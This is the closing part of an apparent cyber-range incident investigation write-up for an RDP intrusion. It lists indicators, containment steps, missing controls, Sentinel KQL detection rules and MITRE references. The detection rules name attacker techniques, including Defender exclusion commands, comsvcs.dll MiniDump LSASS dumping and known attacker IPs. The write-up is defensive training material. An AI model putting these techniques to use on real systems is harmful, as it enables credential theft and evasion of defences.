| `C:\programdata\exfiltratedata.ps1` | File | Exfiltration automation |
| `MicrosoftUpdateSync` | Scheduled Task | Hourly persistence — SYSTEM |
| `slflare` | Account | Compromised user account |

---

## Response Actions

Based on investigation findings, the following immediate containment and remediation actions were identified:

**Immediate Containment**
- Isolate `slflarewinsysmo` from the network pending full forensic review
- Block `159.26.106.84` and `185.92.220.87` at the perimeter firewall and NSG level
- Disable and reset the `slflare` account — enforce MFA immediately

**Persistence Removal**
- Delete scheduled task `MicrosoftUpdateSync`
- Delete `OneDrive Standalone Update Task`
- Remove `C:\Users\Public\msupdate.exe`, `appservice.exe`, `update_check.ps1`
- Remove `C:\programdata\pwncrypt.ps1` and `exfiltratedata.ps1`

**Credential Reset**
- Reset all local account passwords — LSASS and SAM were dumped
- Rotate any domain credentials that were cached on this machine

**Root Cause**
RDP exposed directly to the internet on port 3389 with no IP restriction, no VPN requirement, and no MFA enforcement. A valid credential for `slflare` was likely obtained through prior credential exposure (breach database or OSINT).

---

## What Could Have Stopped This

This attack had several prevention opportunities. Any one of these controls would have broken the chain.

| Control | Where It Would Have Stopped the Attack |
|---------|---------------------------------------|
| Azure Bastion / JIT VM Access | Initial access — no public RDP port |
| NSG rule restricting port 3389 | Initial access — attacker IP blocked |
| MFA on RDP | Initial access — valid password alone insufficient |
| UEBA alert on new external IP | Detection within minutes of initial login |
| Alert on `ExecutionPolicy Bypass` | Execution — flagged before payload ran |
| Alert on Defender modification | Defense evasion — immediate high-severity alert |
| ASR rule — block LSASS access | Credential access — hash theft prevented |
| Script Block Logging (Event ID 4104) | Execution — `update_check.ps1` content captured |
| Network DLP / egress filtering | Exfiltration — curl POST to unknown IP blocked |

---

## Detection Rules

Deploy these as Microsoft Sentinel Analytics Rules for ongoing coverage:

```kql
// Rule 1 — PowerShell spawning executables in user-writable paths
// High fidelity — almost no legitimate use case
DeviceProcessEvents
| where TimeGenerated > ago(1d)
| where InitiatingProcessFileName =~ "powershell.exe"
| where FileName endswith ".exe"
| where FolderPath has_any ("\\Users\\Public\\", "\\Windows\\Temp\\", "\\AppData\\Local\\Temp\\")
| where FileName !in~ ("MicrosoftEdgeUpdate.exe", "setup.exe", "msiexec.exe")
| project TimeGenerated, DeviceName, AccountName, FileName, FolderPath, ProcessCommandLine

// Rule 2 — Any Defender configuration modification
// Should always alert immediately — no legitimate reason to suppress
DeviceProcessEvents
| where TimeGenerated > ago(1d)
| where ProcessCommandLine has_any ("DisableRealtimeMonitoring", "Add-MpPreference -ExclusionPath")
| project TimeGenerated, DeviceName, AccountName, ProcessCommandLine

// Rule 3 — LSASS credential dumping via Living-off-the-Land
DeviceProcessEvents
| where TimeGenerated > ago(1d)
| where ProcessCommandLine contains "comsvcs.dll"
| where ProcessCommandLine contains "MiniDump"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine

// Rule 4 — Known attacker IOCs — block and alert on contact
DeviceNetworkEvents
| where TimeGenerated > ago(1d)
| where RemoteIP in ("185.92.220.87", "159.26.106.84")
| project Timestamp, DeviceName, RemoteIP, RemotePort, InitiatingProcessFileName
```

---

## References

- [MITRE ATT&CK — Enterprise Matrix](https://attack.mitre.org/)
- [T1110.001 — Password Guessing](https://attack.mitre.org/techniques/T1110/001/)
- [T1053.005 — Scheduled Task Persistence](https://attack.mitre.org/techniques/T1053/005/)
- [T1562.001 — Impair Defenses](https://attack.mitre.org/techniques/T1562/001/)
- [T1003.001 — LSASS Memory Dumping](https://attack.mitre.org/techniques/T1003/001/)
- [T1048.003 — Exfiltration Over Unencrypted Protocol](https://attack.mitre.org/techniques/T1048/003/)
- [Microsoft KQL Documentation](https://docs.microsoft.com/en-us/azure/data-explorer/kusto/query/)
- [LOLBAS Project](https://lolbas-project.github.io/)

---

> *Investigation completed in a Microsoft cyber range environment using Microsoft Sentinel Advanced Hunting and MDE telemetry.*
> *All screenshots in `/screenshots/` folder correspond to KQL query results from the live investigation.*

---

## Screenshots Required

> Add your actual KQL result screenshots to the `/screenshots/` folder with these filenames:

```
screenshots/
├── flag_01_auth_analysis.png
├── flag_02_compromised_account.png
├── flag_03_malicious_binary.png
├── flag_04_command_line.png
├── flag_05_scheduled_task.png
├── flag_06_defender_evasion.png
├── flag_07_discovery.png
├── flag_08_archive.png
├── flag_09_c2.png
└── flag_10_exfiltration.png
```
